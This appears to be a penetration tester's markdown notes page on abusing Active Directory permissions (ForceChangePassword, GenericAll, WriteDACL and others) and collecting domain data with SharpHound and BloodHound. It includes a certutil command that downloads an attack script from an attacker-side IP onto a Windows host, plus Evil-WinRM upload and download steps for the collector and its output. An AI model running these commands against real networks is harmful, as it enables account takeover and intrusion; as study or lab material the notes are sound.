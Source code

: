 
### Permission Delegation / ACL Attacks

Check for
	- ForceChangePassword: We have the ability to set the user's current password without knowing their current password.
	- AddMembers: We have the ability to add users (including our own account), groups or computers to the target group.
	- GenericAll: We have complete control over the object, including the ability to change the user's password, register an SPN or add an AD object to the target group.
	- GenericWrite: We can update any non-protected parameters of our target object. This could allow us to, for example, update the scriptPath parameter, which would cause a script to execute the next time the user logs on.
	- WriteOwner: We have the ability to update the owner of the target object. We could make ourselves the owner, allowing us to gain additional permissions over the object.
	- WriteDACL: We have the ability to write new ACEs to the target object's DACL. We could, for example, write an ACE that grants our account full control over the target object.
	- AllExtendedRights: We have the ability to perform any action associated with extended AD rights against the target object. This includes, for example, the ability to force change a user's password.

To assist with visualizing the AD network use Bloodhound
#### BloodHound - SharpHound AD Visualizer

1. SharpHound first which gets a zip file
2. Bloodhound to analyze the zip file
	1. Upload the data zip
On Windows
```
certutil -urlcache -split -f "http://192.168.x.x/rbcd.py"
```

```
.\SharpHound.exe -c all
```

On Evil-WinRM via PS
```
upload /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe
```

```
download 20220110120802_BloodHound.zip
```

On Kali
- As docker
```
sudo docker run -it \	
   -p 7474:7474 \
   -e DISPLAY=unix$DISPLAY \
   -v /tmp/.X11-unix:/tmp/.X11-unix \
   --device=/dev/dri:/dev/dri \
   -v ~/Desktop/bloodhound/data:/data \
   --name bloodhound belane/bloodhound
```

- On system start the console & GUI 
```
sudo neo4j console
```

```
bloodhound --no-sandbox
```

default creds `neo4j:neo4j`
Prompted to change my password so changed to `kali`
